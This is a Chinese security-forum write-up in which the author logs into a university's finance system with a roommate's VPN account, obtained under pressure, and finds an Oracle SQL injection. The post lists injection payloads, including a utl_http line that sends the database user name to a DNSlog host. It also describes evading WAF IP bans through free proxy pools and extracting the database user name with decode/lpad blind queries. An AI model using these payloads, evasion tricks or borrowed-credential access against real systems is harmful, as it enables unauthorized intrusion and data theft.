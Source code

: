 0x01 前言
=======

> 看到某985证书挺好看的，我也很想拿一个。碰巧高中舍友是这个学校的，在一番“威逼利诱”下，他也是乖乖地交出了自己的校园VPN账号。

0x02 发现注入点
==========

1、因为有了VPN账号密码，所以出洞应该不是什么问题。所以我省去了信息收集的步骤，直接登录其教务处、财务处等核心系统测试。最后也是很快地在其财务系统发现了疑似注入点，如下图所示。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-24504d959a7b980854e9fa332a70601183de9fbc.png)

2、如上图所示，在“支出金额范围（元）”处输入个英文单引号，再点击左上角的“按条件查询”，回显Oracle数据库报错，报错信息为单引号未正确终止。如下图所示。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-b46035fbaa5ebba448aebdd54317527a77ad0e54.png)

0x03 Oracle注入学习
===============

**【联合查询注入】**

```php
/?id=1 order by 3 --+ 判断列数
```

```php
/?id=-1 union select null,null,null from dual --+ 获取显位
/?id=-1 union select 1,'2','3' from dual --+ 获取显位
```

```php
/?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+  获取用户名（相当于MYSQL的库名）
```

```php
/?id=-1' union select NULL,(select table_name from user_tables where rownum=1 and owner='XXX'),NULL from dual--+ 获取XXX用户下的表名
```

```php
/?id=-1 union select 1,(select column_name from all_tab_columns where owner='XXX' and table_name='USER' and rownum=1),'3' from dual --+ 获取XXX用户下USER表的字段
```

```php
/?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+ 获取数据
```

**【报错注入】**

```php
/?id=-1' or 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+
```

```php
/?id=-1' or (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+
```

```php
/?id=-1' or (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null--+
```

**【布尔盲注】**

```php
/?id=1 and (select ascii(substr(user,1,1))from dual)>65 --+
```

**【时间盲注】**

```php
/?id=1' and 1=(case when (ascii(substr((select user from dual),1,1))>65) then dbms_pipe.receive_message('RDS',5) else 0 end) --+
```

**【DNSLOG带外注入】**

```php
/?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.xxxxxx.dnslog.cn/oracle')=1 --+
```

0x04 尝试注入
=========

1、有了上面的笔记，我心想应该很快就能注出来，已经开好漏洞提交的页面准备边注边写报告了，结果payload一贴。。

![467ad7495fa2658f92e5511f852b73fc.jpg](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-124658b6cbe728daa37957ced9e72ee1756a55d3.jpg)

2、直接封IP也是难绷。去在线代理池找点免费代理挂上继续测。用上我CTF常年划水的功底，一顿双写大小写编码绕过，但都快把免费IP用完了还是不行。WAF一检测到select、substr、length、instr、ascii等常见函数就会封IP。没办法只能先去搜搜其他师傅的Oracle注入实战贴。发现有decode()这个函数可用。

```php
decode(表达式,value,value1,value2)
```

这个函数的意思是当“表达式”的运算结果等于"value"时，decode函数输出value1；反之若不等，则输出value2。那么我们就可以在“表达式”处逐个字符猜解，结合Oracle除数为0会有特殊报错的特性进行盲注。

![926d64e497da833f9f3803b83f656467.jpg](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-5c661f0fafc16cc6c27050e7980cb8bbcdc0abf6.jpg)

3、那么问题来了。decode函数里面的盲注表达式该用什么呢？常见的那些根本没得用，掉小珍珠了。只能先去查查Oracle手册，找点不在WAF黑名单里的冷门函数。也是边找边学，最后发现了lpad()这个字符串填充函数似乎可以一试。

```php
lpad(string, padded_length, [pad_string])
string: 这是你想要填充的原始字符串。  
padded_length: 指定结果字符串的总长度。如果这个长度小于原始字符串的长度，那么原始字符串将被截取到指定长度。  
pad_string: （可选）用于填充的字符或字符串。如果未指定，默认使用空格字符进行填充。
```

简单说一下，就是如果当前Oracle用户名为wangzi，那么**lpad(user,1,1)** 就为w，**lpad(user,2,1)** 就为wa。而**lpad(user,9,6)** 将输出666wangzi，填充了pad\_string位的字符6到左侧，以让输出的字符串达到九位。

4、最终，我们构造出盲注语句**1/decode(lpad(user,1,1),'A',1,0)** ,将其输入在“支出金额范围（元）”处，并点击查询，发现正常报错回显除数为0。说明当前连接的用户名第一个字符不为A。如图所示。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-cf57fc04480853afd9dc8a30873b4b9a273d9dfa.png)

5、以此类推，再继续构造盲注语句**1/decode(lpad(user,1,1),'C',1,0)** ,将其输入在“支出金额范围（元）”处，并点击查询，发现报错回显查询结果超过控制数。证明payload运算结果为1，即当前连接的用户名第一个字符为C。若将此处的C换成其他任何字符，回显都是除数为0。如图所示。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-66ca4d21ac50320dea37610e8ee9062a2ee5782a.png)

6、再继续构造盲注语句**1/decode(lpad(user,2,1),'CA',1,0)** ,将其输入在“支出金额范围（元）”处，并点击查询，发现报错回显仍是除数为0。说明当前的用户名第二个字符不为A。如图所示。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-e849ec54120a6fc0a40091202d1afdeb43be9c99.png)

7、如此以来不断遍历字符测试，直到构造出**1/decode(lpad(user,2,1),'CW',1,0)** 。将其输入在“支出金额范围（元）”处，并点击查询，发现报错回显的是查询结果超过控制数。证明payload运算结果为1，即当前连接的用户名第二个字符为W。若将此处的W换成其他任何字符，回显都是除数为0。如图所示。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-65b36623c9162605bb8e7daf0f1b48eaaff6adf3.png)

8、同理，构造 **1/decode(lpad(user,3,1),'CWB',1,0)** 和**1/decode(lpad(user,4,1),'CWBS',1,0)** 时，回显不是除数为0，而是查询结果超过控制数。故我们通过盲注，成功得到了该Oracle数据库当前连接的用户名，即CWBS。遍历其它任何字符，盲注第五位的回显都是除数为0，故用户名只有4位。漏洞验证成功！

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-779076888031e630c4d16057e6b8f431f9a3addf.png)

0x05 结语
=======

因为这里的数据包是被全局加密的，而且WAF封得严，所以没能用BP或者脚本进行快速遍历字符进行盲注。不过弄到大半夜也算是勉强注出来了，坐等证书发货。若有不够严谨的地方，还请师傅们批评指正。